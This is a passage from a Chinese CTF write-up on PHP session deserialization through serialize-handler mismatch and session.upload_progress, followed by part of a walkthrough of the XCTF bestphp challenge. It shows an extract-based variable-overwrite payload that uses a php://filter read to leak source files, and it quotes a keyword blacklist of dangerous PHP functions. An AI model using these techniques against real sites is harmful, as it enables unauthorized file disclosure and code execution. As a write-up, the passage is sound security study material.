 那么这样就好理解了,如果在处理器session.serialize_handler=php_serialize的情况下

我们构造带有竖线的字符串,在其他处理器为php的地方,就可以反序列化出伪造的对象。

而我们这里明显是需要去操作session的,文章中为了测试使用的是

```
$_SESSION['ryat'] = $_GET['ryat'];
```

然而很多时候没有这个条件的,怎么办呢

http://php.net/manual/zh/session.upload-progress.php

php为了提供一个上传进度的数据

$n=ini_get("session.upload_progress.name");

会把它存储在$_SESSION["$n"] 当中。

这样我们构造一个文件上传页,就可以成功写入session了

## 2.XCTF-bestphp1

### 文件包含

拿到题目后发现

[![img](https://p0.ssl.qhimg.com/t01f4635c2ec475fad7.png)](https://p0.ssl.qhimg.com/t01f4635c2ec475fad7.png)

代码非常简短，但是问题很明确，我们看到了函数

```
call_user_func($func,$_GET);
```

这里想到的第一反应是利用extract进行变量覆盖，从而达到任意文件包含

例如：

```
?function=extract&file=php://filter/read=convert.base64-encode/resource=index.php
```

[![img](https://p3.ssl.qhimg.com/t0152286903eb4027ac.png)](https://p3.ssl.qhimg.com/t0152286903eb4027ac.png)

发现可以成功读取，尝试读function.php

```
<?php
function filters($data){
    foreach($data as $key=>$value){
        if(preg_match('/eval|assert|exec|passthru|glob|system|popen/i',$value)){
            die('Do not hack me!');
        }
    }
}
?>
```
